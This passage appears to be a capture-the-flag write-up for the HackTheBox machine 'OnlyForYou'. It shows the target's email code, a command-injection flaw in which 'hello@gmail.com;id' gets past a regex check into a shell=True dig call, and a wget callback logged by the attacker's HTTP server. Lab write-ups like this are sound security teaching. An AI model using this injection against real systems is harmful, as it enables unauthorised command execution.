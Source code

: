 ```python
def sendmessage(email, subject, message, ip):
	status = issecure(email, ip)
	if status == 2:
		msg = EmailMessage()
		msg['From'] = f'{email}'
		msg['To'] = 'info@only4you.htb'
		msg['Subject'] = f'{subject}'
		msg['Message'] = f'{message}'

		smtp = smtplib.SMTP(host='localhost', port=25)
		smtp.send_message(msg)
		smtp.quit()
		return status
	elif status == 1:
		return status
	else:
		return status
```

This script performs the pattern to check for the email address then split it in two half and check the address of the domain by calling `dig` via `[subprocess.run](http://subprocess.run)` 

```python
#!/usr/bin/python3

from subprocess import run,PIPE
import re

email = "hello@gmail.com;id"
if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
	print("Nope, try again")
else:
	domain = email.split("@", 1)[1]
	result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
	output = result.stdout.decode('utf-8')
	print(output)
```

Though the `regex` was used to check if the `pattern` matches the email then the second half was passed to the `dig` command, what we can do here is provide a valid mail and after that add a semicolon in the address, since `re.match` is used, once the pattern will be found it will return `True`

![](/img/OnlyForYou_6cf32928838a4b23bc4a47a1102c4daf/Untitled_4.png)

As we can see that `;id` was given at the end of the mail address and is executed. Next, we can try the same payload on the website, here we can just provide the `wget` command to confirm if it is working and it made the connection to local HTTP Server:

![](/img/OnlyForYou_6cf32928838a4b23bc4a47a1102c4daf/Untitled_5.png)

```python
❯ sudo python3 -m http.server 80 --bind 10.10.14.22
[sudo] password for kali: 
Serving HTTP on 10.10.14.22 port 80 (http://10.10.14.22:80/) ...
10.10.11.210 - - [23/Apr/2023 07:25:03] "GET / HTTP/1.1" 200 -
```
